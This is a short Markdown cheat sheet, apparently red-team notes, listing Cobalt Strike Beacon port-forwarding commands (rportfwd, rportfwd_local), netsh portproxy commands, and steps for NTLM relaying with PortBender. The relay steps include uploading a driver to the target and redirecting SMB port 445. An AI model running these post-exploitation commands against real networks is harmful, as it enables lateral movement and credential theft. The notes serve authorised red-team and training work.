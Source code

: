 #### List forwards netsh
```
netsh interface portproxy show v4tov4
```

#### Remove port forward netsh
```
netsh interface portproxy delete v4tov4 listenaddress=<IP> listenport=<PORT>
```

#### Create port forward rportfwd
- Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destination, so shouldn't be used to relay traffic between individual machines.
- Does not require administrator privs
```
rportfwd <PORT> <IP> <PORT>
```

#### Stop port forward rportfwd
```
rportfwd stop <PORT>
```

#### Create port forward rportfwd_local
- Beacon also has a rportfwd_local command.  Whereas rportfwd will tunnel traffic to the Team Server, rportfwd_local will tunnel the traffic to the machine running the Cobalt Strike client.
- Does not require administrator privs
- If 127.0.0.1 doesn't work use teamserver IP
```
rportfwd_local <PORT> <IP> <PORT>
```
    
#### Stop port forward local
```
rportfwd_local stop <PORT>
```

### NTLMRelaying with cobalt strike
- https://github.com/praetorian-inc/PortBender
- Requires administrator privs

#### Place portbender driver on the target
```
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
```

#### Load portbender.cna
- Load PortBender.cna from C:\Tools\PortBender this adds a new PortBender command to the console.
```
help PortBender
PortBender redirect 445 8445
```
